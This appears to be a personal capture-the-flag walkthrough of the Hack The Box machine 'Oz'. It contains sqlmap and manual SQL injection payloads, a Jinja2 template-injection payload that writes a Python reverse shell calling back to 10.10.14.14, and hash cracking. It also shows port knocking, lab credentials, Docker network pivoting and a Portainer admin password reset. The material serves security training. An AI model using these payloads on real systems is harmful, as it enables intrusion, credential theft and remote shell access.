

+++

title"oz"

+++

{{< button href="https://www.youtube.com/watch?v=yX00n1UmalE" > theme=danger }} IppSec 

NMAP

two ports 80 & 8080 

```
nmap -sC -sV -oA nmap/oz-initial 10.10.10.96 -T4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-20 11:18 EST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.96
Host is up (0.041s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login

modify the host header 
```

host: please subscribe.

gobuster using the -l switch will filter out matching lengths. 

using options in the request method in burp will give you the supported request. neat


Using wfuzz to enumerate the webapi filter header lengths of 0

```
wfuzz --hl 0 -u http://oz.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-lis
t-2.3-medium.txt     
returns
000202:  C=200      3 L        6 W           79 Ch        "users"
```


sqlmap --batch -u "http://os.htb/users/admin*" --level 5 --risk 3

-u url also for get request

--batch run default yes

--* = the parameter to fuzz


I do love to watch sqlmap scroll down the screen. 

sqlmap --batch -u "http://os.htb/users/admin*" --level 5 --risk 3 --dump


```
Database: ozdb      
Table: users_gbw             
[6 entries]                                                                                                                                         
+----+-------------+----------------------------------------------------------------------------------------+                                       
| id | username    | password                                                                               |                                       
+----+-------------+----------------------------------------------------------------------------------------+                                       
| 1  | dorthi      | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 |                                       
| 2  | tin.man     | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk |                                       
| 3  | wizard.oz   | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY |                                       
| 4  | coward.lyon | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY |                                       
| 5  | toto        | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg |                                       
| 6  | admin       | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ |       

Database: ozdb
Table: tickets_gbw
[12 entries]
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| id | name     | desc                                                                                                                           |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+
| 1  | GBR-987  | Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.                                                              |
| 2  | GBR-1204 | Where did all these damn monkey's come from!?  I need to call pest control.                                                    |
| 3  | GBR-1205 | Note to self: Toto keeps chewing on the curtain, find one with dog repellent.                                                  |
| 4  | GBR-1389 | Nothing to see here... V2hhdCBkaWQgeW91IGV4cGVjdD8=                                                                            |
| 5  | GBR-4034 | Think of a better secret knock for the front door.  Doesn't seem that secure, a Lion got in today.                             |
| 6  | GBR-5012 | I bet you won't read the next entry.                                                                                           |
| 7  | GBR-7890 | HAHA! Made you look.                                                                                                           |
| 8  | GBR-7945 | Dorthi should be able to find her keys in the default folder under /home/dorthi/ on the db.                                    |
| 9  | GBR-8011 | Seriously though, WW91J3JlIGp1c3QgdHJ5aW5nIHRvbyBoYXJkLi4uIG5vYm9keSBoaWRlcyBhbnl0aGluZyBpbiBiYXNlNjQgYW55bW9yZS4uLiBjJ21vbi4= |
| 10 | GBR-8042 | You are just wasting time now... someone else is getting user.txt                                                              |
| 11 | GBR-8457 | Look... now they've got root.txt and you don't even have user.txt                                                              |
| 12 | GBR-9872 | db information loaded to ticket application for shared db access                                                               |
+----+----------+--------------------------------------------------------------------------------------------------------------------------------+

```

V2hhdCBkaWQgeW91IGV4cGVjdD8

What did you expecd

WW91J3JlIGp1c3QgdHJ5aW5nIHRvbyBoYXJkLi4uIG5vYm9keSBoaWRlcyBhbnl0aGluZyBpbiBiYXNlNjQgYW55bW9yZS4uLiBjJ21vbi4=

You're just trying too hard... nobody hides anything in base64 anymore... c'mon.

union injections

%20 is url space

users/admin'--+- ==== 500 error

users/admin'--%20- ===works


'or 1'=1 url encoded looks like this '%20or%201='1

1 is the first user in the database to get the other users we have to go down the table


go into the user functions 

```
'%20limit%201,1--%20-'
'%20or%201='1'%20limit%202,1--%20-'
```


changing the row in column one will go down the list

```
'%20or%201='1'%20limit%203,1--%20-'		output 	{"username":"tin.man"}
'%20or%201='1'%20limit%202,1--%20-'		output 		{"username":"wizard.oz"}
'%20or%201='1'%20limit%203,1--%20-'		output 	{"username":"coward.lyon"}
'%20or%201='1'%20limit%204,1--%20-'		output 	{"username":"toto"}
'%20or%201='1'%20limit%205,1--%20-'		output 	{"username":"admin"}
the sixth is null
```

The password should be the seocnd column

union select burp

GET /users/chicken'%20union%20select%20all%20user()--%20- HTTP/1.1

{"username":"dorthi@10.100.10.6"}

LOAD_FILE

GET /users/chicken'%20union%20select%20all%20LOAD_FILE('home/')--%20- HTTP/1.1

importing the binascii library to convert the text into a hex format

python3 

>>> import binascii
>>> binascii.hexlify("/home/dorthi/.ssh/id_rsa")
>>> Traceback (most recent call last):
>>>   File "<stdin>", line 1, in <module>
>>> TypeError: a bytes-like object is required, not 'str'
>>> binascii.hexlify(b"/home/dorthi/.ssh/id_rsa")
>>> b'2f686f6d652f646f727468692f2e7373682f69645f727361'
>>> exit

burp getting usershells

python running the backend because when you run 7*'7' it prints 7 7's


http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections

Load

name=chicken&desc={{ config.from_pyfile('/tmp/chicken.cfg') }}  

write

name=chicken&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/chicken.cfg', 'w').write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",9051));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') }} 

read

name=chicken&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/chicken.cfg').read() }}


GET /users/chicken'%20union%20select%20all%20LOAD_FILE(0x2f686f6d652f646f727468692f2e7373682f69645f727361)--%20-

HASHCAT

hashcat -a 0 -m 10000 clean.hashes /opt/htb/wordlist/rockyou.txt

 Django (PBKDF2-SHA256) 

10000

```
cat users.hashes |awk -F, '{print $4}' or 2 or 3 depends
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections

testing for whats working on the back end

wizardofoz22

python -c 'import pty;pty.spawn("/bin/bash")'

python -c 'import pty;pty.spawn("/bin/sh")'

crtl+z , then type stty raw-echo, crtl+z then type reset

cat knockd.conf
[options]
        logfile = /var/log/knockd.log

[opencloseSSH]

        sequence        = 40809:udp,50212:udp,46969:udp
        seq_timeout     = 15
        start_command   = ufw allow from %IP% to any port 22
        cmd_timeout     = 10
        stop_command    = ufw delete allow from %IP% to any port 22
        tcpflags        = syn
for i in 40809 50212 46969; do nc -zu oz.htb $i ;done

inside tickerter database.py hardcoded creds

dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb

mysql -u dorthi -p -h 10.100.10.4

ssh 

openssl rsa -in dorthi_key -out dorthi.ssh

some how all of that comes together to give produce ssh connection. first i believe ssh is open but only response to a tcp connection. so when you knock these three ports in a row it will open up a ssh conneciton for 10 seconds then close it. the for loop run through the three port variables and 

### sudo -l

Matching Defaults entries for dorthi on Oz:
    env_reset, mail_badpass,
    N0Pl4c3L1keH0me

secure_path=/usr/local/sbin/:/usr/local/bin/:/usr/sbin/:/usr/bin/:/sbin/:/bin/:/snap/bin

User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls

sudo docker network ls

sudo docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
4e64c670965c        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local

sudo docker network inspect 

webapi

ozdb

tix-app

cd/containers/database 

found in start.sh

ROOT_PASSWORD=SuP3rS3cr3tP@ss

```

"Containers": {                                                      "139ba9457f1a630ee3a072693999c414901d7df49ab8a70b926d246f9ca6cc69": {                                                               
                "Name": "webapi",                                 
                "EndpointID": "f3555ebb0f7e0571b0667b260ff809b392f3eeffd1a0d4d24643132295676ad3",                                                   
                "MacAddress": "02:42:0a:64:0a:06",                 
                "IPv4Address": "10.100.10.6/29",                   
                "IPv6Address": ""                                 
            },                                                     "b9b370edd41a9d3ae114756d306f2502c420f48a4d7fbe36ae31bc18cf7ddb7c": {                                                               
                "Name": "ozdb",                                   
                "EndpointID": "be4bcb170ed830949e764b336a98c3c4b072cfa906bde1a1d437d44562056c17",                                                   
                "MacAddress": "02:42:0a:64:0a:04",                 
                "IPv4Address": "10.100.10.4/29",                   
                "IPv6Address": ""
            },
            "c26a7bc669289e40144fa1ad25546f38e4349d964b7b3d4fea13e15fe5a9fb01": {
                "Name": "tix-app",
                "EndpointID": "25e5afcafe2a6e98bf3dbe016106d0587a2a4986985e7d4795b2e48c213aadf1",
                "MacAddress": "02:42:0a:64:0a:02",
                "IPv4Address": "10.100.10.2/29",
                "IPv6Address": ""
            }
```

### BRIDGE

```
                }
            ]
        },
        "Internal": false,
        "Attachable": false,
        "Containers": {
            "e267fc4f305575070b1166baf802877cb9d7c7c5d7711d14bfc2604993b77e14": {
                "Name": "portainer-1.11.1",
                "EndpointID": "0f02aa142cdda63ddbc41be13e1716e9d8b1f0747a4abe4f47cd96dc593743c8",                                                   
                "MacAddress": "02:42:ac:11:00:02",
                "IPv4Address": "172.17.0.2/16",
                "IPv6Address": ""
            }
        },
        "Options": {
            "com.docker.network.bridge.default_bridge": "true",
            "com.docker.network.bridge.enable_icc": "true",
            "com.docker.network.bridge.enable_ip_masquerade": "true",
            "com.docker.network.bridge.host_binding_ipv4": "0.0.0.0",
            "com.docker.network.bridge.name": "docker0",
            "com.docker.network.driver.mtu": "1500"
        },
        "Labels": {}
```

### NMAP

```
nmap -sT -T5 172.17.02

Starting Nmap 7.01 ( https://nmap.org ) at 2019-01-21 09:13 CST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 100.00% done; ETC: 09:13 (0:00:00 remaining)
Stats: 0:00:01 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 172.17.02 (172.17.0.2)
Host is up (0.00017s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
9000/tcp open  cslistener
```

### Proxychain Nmap

using ~C capitcal c trick then use proxychain make sure to turn off dns and turn on quite-mode 

```
proxychains nmap -sT 172.17.0.2 -Pn --open -T4                                  
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-20 17:52 EST                                              
Nmap scan report for 172.17.0.2
Host is up (0.044s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
9000/tcp open  cslistener
```

NetCat

using a bash for loop, it will go through the sequence. this can become cluttered

```
for ip in $(seq 1 65000);do
nc -zv -w 1 172.17.0.2 $ip  2>&1 > /tmp/nul | grep -v 'timed &
done

for ip in $(seq 9000 9010);do
nc -zv -w 1 172.17.0.2 $ip  2>&1 |grep 'succeeded!' & 
done
```


I dont like the for loop because it just craps out so much output. for some reason it always makes a mess. I think i modified the former from the netcat ip range scanner. The below option is much cleaner.

```
nc -zv -w 1  172.17.0.2 8900-10000 2>&1 | grep succeeded!
```


## Exploiting Portainer

changing the password on portainer.io submit a POST request to the web directory/api/users/admin/init. I'm not sure why submiting to init resets the admin password. i guess that's the api used to reset the password. Again i dont know.  Finish the request like in the pciture below. This will reset the admin password to whatever password you submit.


Login with the submitted password



Portainer.io

i think this is pretty cool i love messing with these web interfaces. 

some problems may occur the ssh tunnel may drop youll have to reset it by using the port knocking for loop. Be sure to turn off burp the proxy really slows it down it will not load.


it could take awhile to create the container or hang depends.


change from /bin/bash to /bin/sh. there is a cron job running resetting the containers to default.


ssh> -L9051:172.17.0.2:9050

another method is using the -L switch when logging in, you may also use sshutle.

ssh -i dorthi.ssh dorthi@oz.htb -L 9051:172.17.0.2:9000                                          


python:2.7-alpine

i could not get shuttle to work for some reason

sshuttle

sshuttle -r dorthi@oz.htb 172.0.0.0/16 --ssh-cmd 'ssh -i dorthi.ssh'